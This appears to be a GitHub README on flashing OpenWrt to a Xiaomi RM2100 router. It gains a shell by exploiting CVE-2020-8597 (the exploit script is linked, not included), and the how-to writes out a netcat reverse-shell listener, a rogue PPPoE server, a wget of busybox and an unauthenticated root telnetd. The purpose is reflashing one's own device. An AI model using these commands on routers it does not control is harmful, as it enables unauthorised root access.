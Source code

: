 # Xiaomi-RM2100-1.0.14-vs.-CVE-2020-8597

Specification:

CPU: MediaTek MT7621A
RAM: 128 MB DDR3
FLASH: 128 MB ESMT NAND
WIFI: 2x2 802.11bgn (MT7603)
WIFI: 4x4 802.11ac (MT7615)
ETH: 3xLAN+1xWAN 1000base-T
LED: Power, WAN, in Amber and White
UART: On board near ethernet, opposite side from power
Modified u-boot
Installation:

Run linked exploit to get shell, startup telnet and wget the files over
mtd write openwrt-ramips-mt7621-xiaomi_rm2100-squashfs-kernel1.bin kernel1
mtd write openwrt-ramips-mt7621-xiaomi_rm2100-squashfs-rootfs0.bin rootfs0
nvram set uart_en=1
nvram set bootdelay=5
nvram set flag_try_sys1_failed=1
nvram commit
mtd -r write openwrt-ramips-mt7621-xiaomi_rm2100-squashfs-rootfs0.bin rootfs0
Restore to stock:

Setup PXE and TFTP server serving stock firmware image (See dhcp-boot option of dnsmasq)
Hold reset button down while powering on
Wait until status led changes from flashing amber to white
Notes:
This device has dual kernel and rootfs slots like other Xiaomi devices currently supported (mir3g, etc.)
Thus, we use the second slot and overwrite the first rootfs onwards in order to get more space.

Exploit:

https://gist.github.com/namidairo/1e3fb3404c9f148474c06ae6616962f3    (pppd-cve.py)

An implementation of CVE-2020-8597 against stock firmware version 1.0.14

This requires a computer with ethernet plugged into the wan port and an active PPPoE session,
and if successful will open a reverse shell to 192.168.31.177 on port 31337.

As this shell is somewhat unreliable and likely to be killed in a random amount of time,
it is recommended to wget a static compiled busybox binary onto the device and start telnetd with it.
The stock telnetd and dropbear appear inoperable (Disabled on release versions of stock firmware likely)
Ie. wget https://busybox.net/downloads/binaries/1.31.0-defconfig-multiarch-musl/busybox-mipsel -O /tmp/busybox
chmod a+x /tmp/busybox
/tmp/busybox telnetd -l /bin/sh

Signed-off-by: Richard Huynh voxlympha@gmail.com


---------------------------------------------------------
# add howto:

Instructions
These instructions assume that the ethernet interface being used on the wan side device (that is hosting the pppoe server and serving the exploit) is named eth0, please adjust to your own setup as required.

On your lan side device before we trigger the exploit:

# A quick http server for the current directory
python -m http.server 80

# And in another window...
nc -nvlp 31337

On your wan side device:

# Start pppoe-server in the foreground
pppoe-server -I eth0 -F

# In another window to trigger the exploit
python pppd-cve.py

On your lan side device you should see an incoming connection from the router, and we can begin typing in commands to be run on the router.

It is recommended to quickly wget the busybox binary over and start telnetd as the reverse shell can be unstable and disconnect randomly.

cd /tmp
wget http://192.168.31.177/busybox
chmod a+x ./busybox
./busybox telnetd -l /bin/sh
If you are disconnected prematurely, just start the netcat listener and exploit script again.

After securing telnet access to the device you can wget the OpenWrt images onto the device and flash them. After connecting to telnet on 192.168.31.1:

wget http://192.168.31.177/openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-kernel1.bin
wget http://192.168.31.177/openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-rootfs0.bin

# Enable uart and bootdelay, useful for testing or recovery if you have an uart adapter!
nvram set uart_en=1
nvram set bootdelay=5

# Set kernel1 as the booting kernel
nvram set flag_try_sys1_failed=1

# Commit our nvram changes
nvram commit

# Flash the kernel
mtd write openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-kernel1.bin kernel1

# Flash the rootfs and reboot
mtd -r write openwrt-ramips-mt7621-xiaomi_redmi-router-ac2100-squashfs-rootfs0.bin rootfs0

If all has gone well, you should be rebooting into OpenWrt.

